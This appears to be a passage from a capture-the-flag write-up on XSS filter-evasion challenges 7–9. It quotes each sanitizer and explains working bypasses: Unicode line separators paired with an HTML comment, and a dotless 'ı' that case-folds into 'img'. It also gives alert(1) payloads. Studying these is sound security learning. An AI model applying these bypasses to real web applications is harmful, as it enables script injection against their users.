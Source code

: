 ### eXXStravaganza-7
```function sanitize(input) {
    // no tags, no comments, no string escapes and no new lines
    const sanitized = input.replace(/[</'\r\n]/g, '');
    return "  \x3Cscript\x3E\n// the input is '" + sanitized + "'\n  \x3C/script\x3E";
}
```
This time our input is put inside a pair of single-quotes **inside** an in-line Javascript comment. The filter forbids both single-quotes and newlines.  

We can escape the comment by adding a new-line in Unicode (Like `\u2028`). The single quote trailing our input now breaks the script. To get rid of it we can create another line (again, with the unicode new-line) and use an HTML comment (only `<` is forbidden! While `>` is not) which will comment out the rest of the line (meaning the single-quote).  
`;  alert(1);  -->`

### eXXStravaganza-8 
```function sanitize(input) {
    let sanitized = input;
    do{
        input = sanitized;
        // no opening tags
        sanitized = input.replace(/<[a-zA-Z]/g, '')
    } while (input != sanitized)
    sanitized = sanitized.toUpperCase();
    do{
        input = sanitized;
        // no script
        sanitized = input.replace(/SCRIPT/g, '')
    } while (input != sanitized)
    return sanitized.toLowerCase();
}
```
We are back to an HTML injection. This time the filter doesn't allow any (ASCII ;) ) letter as a first character of an HTML tag. And then the filter turns to uppercase our input, before checking if it contains "SCRIPT" and the again makes it lowercase.  
This capitalization change sounded suspect to me, so I wrote a little script to check if there was any character that after undergoing this changes would become an ASCII letter.
```
for (let i = 0; i < 65536; i++) {
	let i_upper = String.fromCharCode(i).toUpperCase();
	let i_lower = i_upper.toLowerCase();
	if (i_lower == "i"){
		console.log(i, String.fromCharCode(i));
	}
}
```

This returned the letter "ı" which I used to build a simple img XSS payload.  
`<ımg src='x' onerror='alert(1)'/>`

### eXXStravaganza-9
```function sanitize(input) {
    // no tags, no comments, no string escapes and no new lines
    const sanitized = input.replace(/[a-z\\]/gi, '').substring(0,140);
    return "  \x3Cscript\x3E\n  " + sanitized + "\n  \x3C/script\x3E";
}
```
